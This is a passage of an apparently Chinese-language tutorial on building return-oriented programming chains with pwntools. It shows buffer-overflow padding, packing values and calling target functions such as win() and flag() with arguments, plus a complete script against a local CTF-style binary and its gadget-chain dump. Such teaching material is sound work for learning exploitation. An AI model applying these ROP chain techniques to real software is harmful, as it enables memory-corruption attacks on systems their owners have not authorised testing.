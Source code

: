 ### 1x02 添加溢出 Padding

```python
rop.raw('A' * 64)
```

### 1x03 添加一个包装值

```python
rop.raw(0x12345678)
```

### 1x04 调用函数 win()

```python
rop.win()
```

如果你需要参数：

```python
rop.win(0xdeadc0de, 0xdeadbeef)
```

### 1x05 抛弃逻辑代码

```python
from pwn import *

elf = context.binary = ELF('./showcase')
rop = ROP(elf)

rop.win1(0x12345678)
rop.win2(0xdeadbeef, 0xdeadc0de)
rop.flag(0xc0ded00d)

print(rop.dump())
```

`dump()` 输出：

```
0x0000:         0x40118b pop rdi; ret
0x0008:       0x12345678 [arg0] rdi = 305419896
0x0010:         0x401102 win1
0x0018:         0x40118b pop rdi; ret
0x0020:       0xdeadbeef [arg0] rdi = 3735928559
0x0028:         0x401189 pop rsi; pop r15; ret
0x0030:       0xdeadc0de [arg1] rsi = 3735929054
0x0038:       'oaaapaaa' <pad r15>
0x0040:         0x40110c win2
0x0048:         0x40118b pop rdi; ret
0x0050:       0xc0ded00d [arg0] rdi = 3235827725
0x0058:         0x401119 flag
```
